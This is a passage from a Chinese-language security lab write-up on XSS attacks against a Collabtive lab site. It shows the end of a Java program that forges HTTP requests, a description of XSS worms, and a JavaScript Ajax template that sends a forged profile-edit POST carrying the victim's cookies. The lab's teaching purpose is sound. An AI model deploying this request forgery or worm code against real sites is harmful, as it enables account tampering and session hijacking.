 ```java
    wr.write(data);
    wr.flush();
    // HttpURLConnection a subclass of URLConnection is returned by
    // url.openConnection() since the url is an http request.
    if (urlConn instanceof HttpURLConnection) {
    HttpURLConnection httpConn = (HttpURLConnection) urlConn;
    // Contacts the web server and gets the status code from
    // HTTP Response message.
    responseCode = httpConn.getResponseCode();
    System.out.println("Response Code = " + responseCode);
    // HTTP status code HTTP_OK means the response was
    // received sucessfully.
    if (responseCode == HttpURLConnection.HTTP_OK) {
    //Laboratory for Computer Security Education 6
    // Get the input stream from url connection object.
    responseIn = urlConn.getInputStream();
    // Create an instance for BufferedReader
    // to read the response line by line.
    BufferedReader buf_inp = new BufferedReader(
    new InputStreamReader(responseIn));
    String inputLine;
    while((inputLine = buf_inp.readLine())!=null) {
    System.out.println(inputLine);
    }
    }
    }
    } catch (MalformedURLException e) {
    e.printStackTrace();
    }
    }
    }
```
> - 使用 javac HTTPSimpleForge.java 编译文件
> - 使用 java HTTPSimpleForge 运行程序

### 5、XSS蠕虫 

#### xss蠕虫 cross site scripting worm 

是一种跨站脚本病毒， 通常由脚本语言Javascript写成， 它借由网站访问者传播。由于XSS蠕虫基于浏览器而不是操作系统, 取决于其依赖网站的规模, 它可以在短时间内对巨大数量的计算机进行感染；

#### XSS蠕虫的危害 

蠕虫可以用来打广告、刷流量、挂马、恶作剧、破坏网上数据、实施DDoS攻击等等。

#### XSS蠕虫的学习 

首先我们需要理解一下Ajax框架，框架代码如下：

```
var Ajax=null;
// 构建http请求的头信息
Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabcollabtive.com/manageuser.php?action=edit",true);
Ajax.setRequestHeader("Host","www.xsslabcollabtive.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
// 构建http请求内容。 内容的格式可以从浏览器插件LiveHTTPHeaders中知道长什么样
var content="name=...&company=&..."; // 这是你需要填写的内容
// 发送http POST请求。
Ajax.send(content);
```
